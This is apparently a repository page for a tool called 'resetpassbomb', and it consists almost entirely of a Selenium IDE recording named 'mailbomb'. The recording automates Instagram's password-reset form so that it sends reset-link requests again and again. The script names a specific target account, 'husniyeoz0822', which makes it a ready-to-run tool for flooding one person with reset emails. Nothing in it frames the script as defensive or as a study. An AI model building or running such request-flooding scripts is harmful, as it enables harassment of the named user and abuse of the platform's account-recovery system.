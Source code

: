 # resetpassbomb
instagram reset pass bomb

{
  "id": "c2a6db1d-4d75-4c36-9f5a-f413d765992b",
  "version": "2.0",
  "name": "mailbomb",
  "url": "https://www.instagram.com",
  "tests": [{
    "id": "4cc8c5d0-252b-4562-8f63-584132ed5212",
    "name": "1",
    "commands": [{
      "id": "6706cf93-205e-4a13-8016-4240a7e7d94f",
      "comment": "",
      "command": "open",
      "target": "/accounts/password/reset/",
      "targets": [],
      "value": ""
    }, {
      "id": "55a5bfd9-236b-4eaf-9a6d-8b4f3c66aae8",
      "comment": "",
      "command": "setWindowSize",
      "target": "550x690",
      "targets": [],
      "value": ""
    }, {
      "id": "bfd05266-35f6-41c9-a561-3dd99c7e2270",
      "comment": "",
      "command": "type",
      "target": "name=cppEmailOrUsername",
      "targets": [
        ["id=fcadc4b7ab9486", "id"],
        ["name=cppEmailOrUsername", "name"],
        ["css=#fcadc4b7ab9486", "css:finder"],
        ["xpath=//input[@id='fcadc4b7ab9486']", "xpath:attributes"],
        ["xpath=//span[@id='react-root']/section/main/div[2]/div/div/div[4]/form/label/input", "xpath:idRelative"],
        ["xpath=//input", "xpath:position"]
      ],
      "value": "username"
    }, {
      "id": "8ea1a175-a423-4190-b97a-704bab92c06b",
      "comment": "",
      "command": "click",
      "target": "css=.L3NKy",
      "targets": [
        ["css=.L3NKy", "css:finder"],
        ["xpath=//button[@type='button']", "xpath:attributes"],
        ["xpath=//span[@id='react-root']/section/main/div[2]/div/div/div[5]/button", "xpath:idRelative"],
        ["xpath=//button", "xpath:position"],
        ["xpath=//button[contains(.,'Giriş Bağlantısı Gönder')]", "xpath:innerText"]
      ],
      "value": ""
    }, {
      "id": "d14101c3-4fd8-42c8-ab01-9ceab9f86b90",
      "comment": "",
      "command": "mouseOver",
      "target": "css=.L3NKy",
      "targets": [
        ["css=.L3NKy", "css:finder"],
        ["xpath=//button[@type='button']", "xpath:attributes"],
        ["xpath=//span[@id='react-root']/section/main/div[2]/div/div/div[5]/button", "xpath:idRelative"],
        ["xpath=//button", "xpath:position"],
        ["xpath=//button[contains(.,'Giriş Bağlantısı Gönder')]", "xpath:innerText"]
      ],
      "value": ""
    }, {
      "id": "339bab19-f919-4316-8a2f-6bbc52f72d5b",
      "comment": "",
      "command": "mouseOut",
      "target": "css=.L3NKy",
      "targets": [
        ["css=.L3NKy", "css:finder"],
        ["xpath=//button[@type='button']", "xpath:attributes"],
        ["xpath=//span[@id='react-root']/section/main/div[2]/div/div/div[5]/button", "xpath:idRelative"],
        ["xpath=//button", "xpath:position"],
        ["xpath=//button[contains(.,'Giriş Bağlantısı Gönder')]", "xpath:innerText"]
      ],
      "value": ""
    }, {
      "id": "19a7c6cb-ffdb-43b5-a06f-af2cd6ff469e",
      "comment": "",
      "command": "click",
      "target": "id=f104cb6d8e8289c",
      "targets": [
        ["id=f104cb6d8e8289c", "id"],
        ["name=cppEmailOrUsername", "name"],
        ["css=#f104cb6d8e8289c", "css:finder"],
        ["xpath=//input[@id='f104cb6d8e8289c']", "xpath:attributes"],
        ["xpath=//span[@id='react-root']/section/main/div[2]/div/div/div[4]/form/label/input", "xpath:idRelative"],
        ["xpath=//input", "xpath:position"]
      ],
      "value": ""
    }, {
      "id": "8e25e4fd-f9bb-4e2c-941e-ddd5546977ce",
      "comment": "",
      "command": "type",
      "target": "id=f104cb6d8e8289c",
      "targets": [
        ["id=f104cb6d8e8289c", "id"],
        ["name=cppEmailOrUsername", "name"],
        ["css=#f104cb6d8e8289c", "css:finder"],
        ["xpath=//input[@id='f104cb6d8e8289c']", "xpath:attributes"],
        ["xpath=//span[@id='react-root']/section/main/div[2]/div/div/div[4]/form/label/input", "xpath:idRelative"],
        ["xpath=//input", "xpath:position"]
      ],
      "value": "husniyeoz0822"
    }, {
      "id": "ea265960-24f2-4bc8-abb9-fc7ceea0ae76",
      "comment": "",
      "command": "click",
      "target": "css=.L3NKy",
      "targets": [
        ["css=.L3NKy", "css:finder"],
        ["xpath=//button[@type='button']", "xpath:attributes"],
        ["xpath=//span[@id='react-root']/section/main/div[2]/div/div/div[5]/button", "xpath:idRelative"],
        ["xpath=//button", "xpath:position"],
        ["xpath=//button[contains(.,'Giriş Bağlantısı Gönder')]", "xpath:innerText"]
      ],
      "value": ""
    }]
  }],
  "suites": [{
    "id": "eca1181d-d763-476f-84b3-b4ba2bfa0a70",
    "name": "Default Suite",
    "persistSession": false,
    "parallel": false,
    "timeout": 300,
    "tests": []
  }],
  "urls": ["https://www.instagram.com/"],
  "plugins": []
}
